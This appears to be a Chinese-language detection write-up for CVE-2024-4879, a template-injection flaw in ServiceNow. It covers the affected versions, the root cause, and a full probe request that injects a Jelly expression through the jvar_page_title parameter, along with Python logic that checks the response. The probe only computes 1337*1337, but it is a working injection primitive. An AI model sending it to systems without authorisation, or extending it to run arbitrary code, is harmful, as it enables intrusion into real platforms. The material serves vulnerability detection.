

# ServiceNow UI Macros SSTI远程代码执行漏洞（CVE-2024-4879）检测说明

## 漏洞简介

ServiceNow Vancouver 和 Washington DC Now Platform 版本存在服务端模板注入（SSTI）漏洞。攻击者可通过特定参数注入恶意模板表达式，最终实现远程代码执行，危及平台数据安全。

## 影响范围

- 产品：ServiceNow Now Platform
- 影响版本：Vancouver、Washington DC 及相关版本
- CVE编号：CVE-2024-4879
- 危害等级：Critical

## 漏洞原理

ServiceNow的UI宏处理逻辑未对输入进行有效校验，攻击者可通过jvar_page_title参数注入Jelly模板表达式，利用glide API执行任意代码。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，jvar_page_title参数注入Jelly模板表达式。
2. 服务器端未对参数进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行（如计算1337*1337）。
4. 响应体返回特定结果，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gs.addErrorMessage(1337*1337);</g:evaluate></j:jelly></style> HTTP/1.1
Host: target.com
```

- jvar_page_title参数注入Jelly模板表达式，尝试让平台输出计算结果。

### 预期响应与交互

- 响应体需包含`<div class="outputmsg_text">1787569</div>`（1337*1337的结果）。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and '<div class="outputmsg_text">1787569</div>' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [Assetnote分析](https://www.assetnote.io/resources/research/chaining-three-bugs-to-access-all-your-servicenow-data)
- [ServiceNow官方通告1](https://support.servicenow.com/kb?id=kb_article_view&sysparm_article=KB1644293)
- [ServiceNow官方通告2](https://support.servicenow.com/kb?id=kb_article_view&sysparm_article=KB1645154)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2024-4879) 